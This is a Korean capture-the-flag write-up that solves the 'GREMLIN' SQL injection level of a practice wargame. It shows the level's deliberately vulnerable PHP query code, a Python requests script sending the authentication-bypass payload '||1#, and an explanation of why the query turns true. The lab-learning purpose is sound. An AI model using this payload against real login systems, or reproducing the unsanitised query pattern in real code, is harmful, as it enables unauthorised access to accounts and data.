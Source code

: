 
## GREMLIN Write-up

### 문제
``` php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

### Exploit 코드
``` python
import requests

url = "http://los.rubiya.kr/gremlin_280c5552de8b681110e9287421b834fd.php"
session = {'PHPSESSID' : 'My PHPSESSID'}
data = {}
data['id'] = "'||1#"

res = requests.get(url, params=data, cookies=session)

if "Clear!" in res.text :
    print("[♪] GREMLIN Clear!")
```

python으로 HTTP 요청을 보내 응답을 받기 위해 requests 모듈을 사용했다.
``` php
if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```
GET으로 전송된 id와 pw를 필터링 하는 부분이다.
``` php
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
```
id에서 싱글쿼터 필터링을 안하는 점을 이용해 우회할 수 있다.
id에 '||1#을 입력해주면 쿼리문이 참이 된다.
```
select id from prob_gremlin where id='**'||1#**' and pw=''
```
쿼리문이 위와 같이 되고, **$result['id']** 에 값이 있어 문제가 풀린다.
